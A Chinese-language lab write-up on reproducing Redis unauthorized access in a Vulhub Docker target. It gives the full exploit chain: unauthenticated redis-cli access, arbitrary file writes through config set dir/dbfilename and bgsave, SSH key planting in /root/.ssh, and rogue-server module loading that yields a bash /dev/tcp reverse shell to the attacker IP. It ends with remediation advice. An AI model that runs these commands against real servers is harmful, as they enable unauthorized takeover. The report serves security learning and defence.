









# Redis 未授权访问漏洞 复现实验报告

## 一、漏洞简介
- Redis 服务若配置对外监听 0.0.0.0 且未设置访问密码，攻击者可无需认证直接远程连接 Redis 服务。
- 攻击者可读取缓存数据、修改持久化路径，利用 Redis 任意文件写入能力，写入 SSH 公钥、WebShell 等文件，最终实现服务器权限接管。
- 漏洞端口：6379
- 漏洞成因：配置错误（无认证、全网监听）
- 影响版本：未授权访问风险覆盖 Redis 全版本（4.x/5.x 可进一步利用模块加载 RCE）

## 二、实验环境
- 靶场环境：Vulhub redis/4-unacc（Redis 4.0.14）
- 靶机 IP：10.165.15.225:6379（无密码、全网监听）
- 攻击机 IP：10.165.15.22
- 环境架构：Docker 容器靶场

## 三、靶场启动
进入漏洞目录并启动靶场：
```
cd vulhub/redis/4-unacc
docker-compose up -d
```




## 四、漏洞复现过程
1. 安装 Redis 客户端

```
yum install -y redis
```



最后出现 Complete 即安装完成

安装完成后可使用redis-cli 远程连接目标服务。

2. 未授权连接验证
无需密码直接连接靶机 Redis：
```
redis-cli -h 10.165.15.225 -p 6379
```

连接成功后执行信息查询命令：
```
info
```





漏洞现象：无任何密码校验，可直接获取 Redis 版本、系统环境、运行参数等敏感信息，确认存在未授权访问漏洞。

3. 任意文件写入能力测试
通过修改持久化目录与文件名，验证任意文件写入风险：

```
config get dir    # 当前数据存储目录：/data
config get dbfilename   # 当前 RDB 文件名：dump.rdb
config set dir /tmp    # 将数据存储目录改为 /tmp
config set dbfilename "exp.txt"  # 将文件名改为 exp.txt
set test "hello redis"  # 在 Redis 中设置一个键值对：test = "hello redis"
bgsave    # 触发持久化（写入磁盘）

```





执行 bgsave 后台持久化成功，证明攻击者可可控写入服务器任意目录文件，漏洞核心危害成立。
## 五、漏洞利用方式

### 方式一：写入 SSH 公钥提权（经典利用）

原理：Redis 以 root 权限运行时，可写入/root/.ssh/authorized_keys，实现免密登录。

1. 攻击机生成 SSH 密钥对

```
ssh-keygen -t rsa -b 4096 -N "" -f /root/.ssh/id_rsa
cat /root/.ssh/id_rsa.pub
```

2. 攻击机连接Redis 写入公钥

```
config set dir /root/.ssh
config set dbfilename "authorized_keys"
set x "\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD...\n\n"
bgsave
```

#### 重要实验总结

在 Docker Vulhub 环境中，该利用链无法完成最终 SSH 登录，原因如下：
- 1. Redis 官方镜像 entrypoint 脚本会强制降权为普通用户运行，规避 root 写入权限；
- 2. bgsave 生成的 RDB 文件自带 REDIS0008 二进制文件头，污染公钥文件，导致 SSH 认证失败；
- 3. Docker 容器无 SSH 服务、文件系统隔离，写入为容器内文件，无法穿透到宿主机。
但任意文件写入漏洞能力已完全验证，真实物理机环境可完整 Getshell。

### 方式二：Redis 4.x 模块加载 RCE 反弹 Shell（真实 Getshell）

原理说明：
system.exec并非原生 Redis 命令，是通过恶意 Rogue-Server 加载恶意 so 模块后新增的命令，可直接执行系统命令，不受文件写入缺陷限制。

1. 攻击机启动恶意 Redis 服务

```
python3 redis-rogue-server.py --rhost 10.165.15.225 --rport 6379 --lhost 10.165.15.22 --lport 21000
参数说明：
- rhost/rport：目标 Redis 地址端口
- lhost/lport：攻击机恶意服务端口
```


2. 攻击机开启端口监听

```
nc -lvnp 4444
```

3. 连接目标 Redis 执行命令反弹 Shell

```
redis-cli -h 10.165.15.225 -p 6379
system.exec "bash -c 'bash -i >& /dev/tcp/10.165.15.22/4444 0>&1'"
```





成功获取靶机交互式 Shell，完成 Getshell。

## 六、销毁靶场

```
cd vulhub/redis/4-unacc
docker-compose down
```

## 七、漏洞修复方案
1. 限制监听地址：修改配置 bind 127.0.0.1，禁止 0.0.0.0 全网暴露。
2. 开启密码认证：配置 requirepass 自定义强密码，强制密码登录。
3. 防火墙隔离：限制 6379 端口仅内网可信 IP 访问，禁止公网暴露。
4. 降权运行服务：禁止 root 用户启动 Redis，使用普通低权限用户运行，减小危害面。
5. 禁用高危命令：重命名或禁用 config、save 等高危命令。

## 八、实验总结
1. Redis 未授权访问多为人为配置漏洞，对外网开放无认证服务风险极高。
2. 文件写入提权存在环境局限性，Docker 环境存在文件头污染、服务隔离等问题，真实服务器可直接 Getshell。
3. Redis 4.x 模块加载漏洞可直接执行系统命令，是最稳定、无环境依赖的 Getshell 方式。
4. 生产环境必须严格限制 Redis 暴露范围、开启密码、降权运行，杜绝未授权访问风险。
